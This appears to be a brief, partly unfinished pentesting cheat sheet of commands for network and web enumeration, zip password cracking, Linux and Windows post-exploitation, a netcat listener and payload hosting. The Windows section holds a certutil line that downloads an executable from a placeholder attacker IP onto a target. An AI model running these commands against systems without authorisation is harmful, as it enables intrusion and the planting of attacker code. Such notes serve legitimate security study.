 ## Enumeration 
arp-scan -l

showmount -e [server ip]

mount -t nfs [server ip]:[remote path shown from showmount] [to local mount point]

nmap -sV -A -T4 -p- 

nmap --sC ? 

gobuster ######

## Web Enumeration

Curl -I http://[WebsiteORip]

nikto -h http://[IPaddress:8080]

## Cracking
Zip files: fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt [target.zip]

## Linux Post Exploitation
history

pwd

sudo -l

crontab -l

**Linux wget and curl commands**

## Windows Post Exploitation
cd

whoami

ipconfig

dir

sc stop [application]

sc start [application]

sc query [application]

certutil.exe -urlcache -f http://[attackerip]:8000/[application.exe] [applicationname.exe]

## Listener
nc -nlvp [port]

## Directory hosting
python -m SimpleHTTPServer




